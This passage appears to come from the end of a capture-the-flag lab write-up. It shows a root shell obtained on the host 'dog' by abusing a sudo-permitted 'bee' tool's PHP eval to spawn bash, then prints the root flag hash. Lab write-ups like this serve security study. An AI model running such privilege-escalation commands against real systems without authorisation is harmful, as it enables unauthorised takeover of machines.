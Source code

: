 ```c
}
```

## Privilege Escalation to root

The `script` provided a lot of options and the most interesting to us was the execution of `PHP code` through `eval`. We pointed it to the `root directory` for the `bootstrap` and spawned a new shell as `root`.

```c
johncusack@dog:~$ sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/usr/bin/bash");'
root@dog:/var/www/html#
```

## root.txt

```c
root@dog:~# cat root.txt 
c460c7867074d890578e27646e506095
```
